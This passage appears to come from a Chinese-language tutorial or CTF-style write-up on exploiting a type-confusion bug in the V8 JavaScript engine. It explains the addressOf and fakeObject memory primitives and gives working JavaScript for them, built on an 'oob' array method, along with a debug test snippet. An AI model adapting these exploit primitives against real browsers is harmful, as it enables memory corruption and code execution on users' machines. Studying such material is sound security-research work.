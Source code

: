 > **计算一个对象的地址addressOf**：将需要计算内存地址的对象存放到一个对象数组中的A[0]，然后利用上述类型混淆漏洞，将对象数组的Map类型修改为浮点数数组的类型，访问A[0]即可得到浮点数表示的目标对象的内存地址。
>
> **将一个内存地址伪造为一个对象fakeObject**：将需要伪造的内存地址存放到一个浮点数数组中的B[0]，然后利用上述类型混淆漏洞，将浮点数数组的Map类型修改为对象数组的类型，那么B[0]此时就代表了以这个内存地址为起始地址的一个JS对象了。

下面我们利用JavaScript实现上述addressOf和fakeObject功能原语。

首先定义两个全局的Float数组和对象数组，利用oob函数漏洞泄露两个数组的Map类型：

```assembly
var obj = {"a": 1};
var obj_array = [obj];
var float_array = [1.1];

var obj_array_map = obj_array.oob();
var float_array_map = float_array.oob();
```

然后实现下面两个函数。

**addressOf 泄露某个对象的内存地址**

```assembly
// 泄露某个object的地址
function addressOf(obj_to_leak)
{
    obj_array[0] = obj_to_leak;
    obj_array.oob(float_array_map);
    let obj_addr = f2i(obj_array[0]) - 1n;
    obj_array.oob(obj_array_map); // 还原array类型以便后续继续使用
    return obj_addr;
}
```

**fakeObject 将指定内存强制转换为一个js对象**

```assembly
// 将某个addr强制转换为object对象
function fakeObject(addr_to_fake)
{
    float_array[0] = i2f(addr_to_fake + 1n);
    float_array.oob(obj_array_map);
    let faked_obj = float_array[0];
    float_array.oob(float_array_map); // 还原array类型以便后续继续使用
    return faked_obj;
}
```

编写测试语句打印一个对象的地址：

```assembly
var test_obj = {};
%DebugPrint(test_obj);
var test_obj_addr = addressOf(test_obj);
console.log("[*] leak object addr: 0x" + test_obj_addr.toString(16));
%SystemBreak();
```
